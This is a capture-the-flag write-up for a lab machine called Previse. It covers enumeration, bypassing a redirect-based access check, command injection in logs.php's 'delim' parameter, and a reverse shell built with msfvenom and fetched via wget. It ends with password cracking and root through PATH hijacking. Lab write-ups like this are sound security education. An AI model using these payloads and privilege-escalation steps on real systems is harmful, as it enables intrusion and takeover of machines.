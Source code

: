 # previse

`Nmap` scan

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
```

so just 80 for now. the output from `ffuf`

`ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u` [`http://10.129.186.43/FUZZ`](http://10.129.186.43/FUZZ) `-e .php,.txt`

```text
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
download.php            [Status: 302, Size: 0, Words: 1, Lines: 1]
login.php               [Status: 200, Size: 2224, Words: 486, Lines: 54]
files.php               [Status: 302, Size: 4914, Words: 1531, Lines: 113]
header.php              [Status: 200, Size: 980, Words: 183, Lines: 21]
nav.php                 [Status: 200, Size: 1248, Words: 462, Lines: 32]
footer.php              [Status: 200, Size: 217, Words: 10, Lines: 6]
status.php              [Status: 302, Size: 2966, Words: 749, Lines: 75]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
accounts.php            [Status: 302, Size: 3994, Words: 1096, Lines: 94]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
logs.php                [Status: 302, Size: 0, Words: 1, Lines: 1]
```

let's go through these files now.

so, when I do `/accounts.php`, it shows me a 302 redirect that is supposed to be protection mechanism for the website :\).

So, lets open up `Burp` and see if we can turn on the intercept and see if we can change the `302 FOUND` to `200 OK` and remove the Location header

![](../../.gitbook/assets/image%20%2811%29.png)

![](../../.gitbook/assets/image%20%284%29.png)

now, we got the following page,

![](../../.gitbook/assets/image%20%2814%29.png)

using this page, we are able to create the account as user `admin1`., and once we do that and login, I'm able to look at a zip file that is on the page at `/files.php`, and we got the source code of the website here.

![](../../.gitbook/assets/image%20%283%29.png)

```text
# config.php

<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

and this in `logs.php`, maybe we can inject something here

```text
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";    
```

so, looks like this above piece of code is where our entry point is, so lets try to confirm that if we have code execution on the remote server by pinging our self from the target machine and running a 

`sudo tcpdump -i tun0 icmp` on the local machine

![](../../.gitbook/assets/image%20%2810%29.png)

if you see any response on your machine like below, that mostly means we have code execution

![](../../.gitbook/assets/image%20%281%29.png)

so, after confirming that we have code execution, I've run through couple of payloads to get a `reverse shell` using bash one-liner and `python` as well, but no luck, so I've used the generated payload from `msfvenom`

```text
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=10.10.14.19 LPORT=4242 -f elf -o shell
```

and once we generate this, we can just open up a http server on our local machine, and transfer the file to remote using `wget` and mark it as an executable `chmod 777 /tmp/shell` and run it

![](../../.gitbook/assets/image%20%2815%29.png)

once we do that, we get a reverse shell

once we get a reverse shell, we can see that there is a `SQL` server running on the machine, and if you remember, there is a password that we grabbed before for the `SQL` service

![](../../.gitbook/assets/image%20%2813%29.png)

not sure if we'll be able to crack this

![](../../.gitbook/assets/image%20%2812%29.png)

there we go, we got it. let's see if we can crack this, meanwhile in `/var/backups` I found some `gz` files, lets have a look at that before we go into cracking \(not much in those `gz` files as well\)

so, we're able to crack the password using `hashcat`, \(it took quite some time, unusual for a CTF\)

![](../../.gitbook/assets/screenshot-2021-08-13-at-22.45.09.png)

so, we can login into the box as `m4lwhere` user into this box, and its a pretty straight forward stuff after this to get `root`

![](../../.gitbook/assets/screenshot-2021-08-13-at-23.36.48.png)

and if we look closely, we don't see any env reset stuff going on when we run `sudo -l`, so its possible that if we export a `PATH` variable, we might be able to persist it when we run the sudo command.

```text
echo "chmod +s /bin/bash" >> ~/gzip
export PATH=$HOME:$PATH
```

once we do this and run the sudo command, `setuid` is turned ON on our `bash` executable, and we can simply run `/bin/bash -p` to get a root shell, and if you want an full ssh shell, you can put your `id_rsa.pub` into the `/root/.ssh/authorized_keys` and we can login using ssh

![](../../.gitbook/assets/screenshot-2021-08-13-at-23.44.01.png)



